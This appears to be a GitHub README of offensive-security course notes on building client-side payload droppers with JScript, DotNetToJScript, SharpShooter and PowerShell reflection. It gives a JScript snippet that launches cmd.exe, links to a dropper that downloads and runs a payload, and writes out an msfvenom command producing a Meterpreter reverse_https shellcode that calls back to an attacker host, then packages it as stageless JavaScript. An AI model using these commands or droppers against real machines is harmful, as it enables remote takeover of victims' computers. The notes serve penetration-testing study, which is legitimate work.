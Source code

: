 ## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.
Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

## Reflection powershell with pre-compiled C# assembly

Now we can use the same code to compile a new dll to used in powershell.
- 1.Create a New **Class Libary .NET Framework project**
- 2.use the same ttps and compile the [cs code](/ClientSideWithWindowsScriptHost/Class1.cs) into dll
- 3.create powershell [payload dropper](/ClientSideWithWindowsScriptHost/reflectionRunner.ps1).
